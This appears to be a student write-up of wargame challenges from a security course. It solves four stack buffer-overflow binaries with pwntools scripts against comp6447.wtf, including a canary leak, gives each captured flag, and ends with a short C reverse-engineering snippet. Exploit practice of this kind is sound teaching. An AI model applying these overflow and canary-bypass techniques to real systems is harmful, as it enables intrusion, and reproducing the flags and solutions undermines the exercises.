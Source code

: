 # challenge-name: jump

## Flag
FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiMi1qdW1wIiwiaXAiOiIxMjQuMTgzLjE5LjE1MyIsInNlc3Npb24iOiI5ZmJlOWU0NS04NGEyLTRmNTYtOGEzYS1lZGEyZDM0MzQ4NTYifQ.M8yik1YxerCti0ISSrdJN9mCeG2WIdi-Ja7ECdbWz-g}

## General overview
We just need to override the pointer variable above the buffer.

## Program used
```python
from pwn import *
from pwnlib.util.packing import p32, u32

p = remote('comp6447.wtf', 28958)

offset = 64
winAddr = 0x08048536

payload = "A".encode() * offset + p32(winAddr)

p.sendline(payload)
p.sendline("cat flag")

p.interactive()
p.close()
```

======================================================

# challenge-name: blind

## Flag
FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiMi1ibGluZCIsImlwIjoiMTI0LjE4My4xOS4xNTMiLCJzZXNzaW9uIjoiYmVmODYzNGEtZjY3Zi00MzgyLThiZTAtNGM2MWU2ZTA2ZmI4In0.nSFh8C3VKOfUQVFr3mz1tpv-Uid5xZxGbIIyNWWIthE}

## General overview
By binary ninja we know that we need to jump to the win function, so we can just overwrite the return address of the vuln function.

## Program used
```python
from pwn import *
from pwnlib.util.packing import p32, u32

p = remote('comp6447.wtf', 28872)
elf = ELF('./wargame2/blind')

offset = 72

payload = "A".encode() * offset + p32(elf.symbols['win'])

p.sendline(payload)
p.sendline("cat flag")

p.interactive()
p.close()
```
======================================================

# challenge-name: bestsecurity

## Flag
FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiMi1iZXN0c2VjdXJpdHkiLCJpcCI6IjEyNC4xODMuMTkuMTUzIiwic2Vzc2lvbiI6IjhmYjVkODdhLTE2YzgtNGMyMC1iNzNiLWRhOTM0OTZmNGNiMiJ9.735lYOCvbZgjM5SxLjqA6ugB8NWr42hsvkdSlBLVsMQ}

## General overview
The challenge is simple, check the check_canary function with Binary Ninja. We can then see that the key is to break the strncmp, and we just need to overflow and rewrite the string being compared. Using the hexadecimal number given by Binary Ninja will give us the number of bits we need to rewrite.
137 - 9 = 128

## Program used
```python
from pwn import *
from pwnlib.util.packing import p32, u32

p = remote('comp6447.wtf', 26949)

# 137 - 9 = 128
offset = 128

payload = "A".encode() * offset + bytes('1234', 'utf-8')

p.sendline(payload)
p.sendline("cat flag")

p.interactive()
p.close()
```

======================================================

# challenge-name: stack-dump	

## Flag
FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiMi1zdGFjay1kdW1wIiwiaXAiOiIxMjQuMTgzLjE5LjE1MyIsInNlc3Npb24iOiI3OWFmZGE3NC1hZWEyLTQzOGUtOTlhZS1mMWYzZTBkYTRiNWQifQ.VRdQF7eqaikOS07Cnj0VXQHUKlXQ9T-3K1ZIcGa48hY}

## General overview
There is a canary in the stack, and we need to use the "dump memory" option provided by the program to steal this secret. By using the hexadecimal number that the binary ninja tells us, we can calculate the offset between stack pointer and canary.
Then we calculate the number of fills between them and finally rewrite the return address to the address of the win function and we're done!


## Program used
```python
from pwn import *
from pwnlib.util.packing import p32

p = remote('comp6447.wtf', 24973)
elf = ELF('./wargame2/stack-dump')


p.recvuntil(b'pointer ', drop=True)
# ebp-0x71 contains stack pointer at the beginning
# ebp-0x8 contains stack canary value
stk_ptr = p32(int(p.recvline(), 16) + 0x71 - 0x8)
log.info(f"The stack pointer is {stk_ptr}")

p.recvuntil(b'quit', drop=True)
p.sendline(b"a")

p.recvuntil(b'len: ', drop=True)
p.sendline(stk_ptr)

p.recvuntil(b'quit', drop=True)
p.sendline(b'b')

p.recvline()
canary = p.recvline()
canary = canary[22:26]
log.info(f"Canary: {canary}")

p.recvuntil(b'quit', drop=True)
p.sendline(b"a")

# The distance from the input to the return address is 108 bytes
# padding + canary + padding + return address
payload = b'A'*96 + canary + b'A'*8 + p32(elf.symbols['win'])
p.sendline(payload)

p.recvuntil(b'quit', drop=True)
p.sendline(b'd')

p.sendline(b"cat flag")

p.interactive()
p.close()

```

======================================================

# challenge-name: Reverse engineering

## Code
```c
int main(int argc, char const *argv[]) {
    int number;
    int i = scanf("%d", &number)
    if (number != 1337) puts("Bye");
    else puts("Your so leet!");
    return 1;
} 
```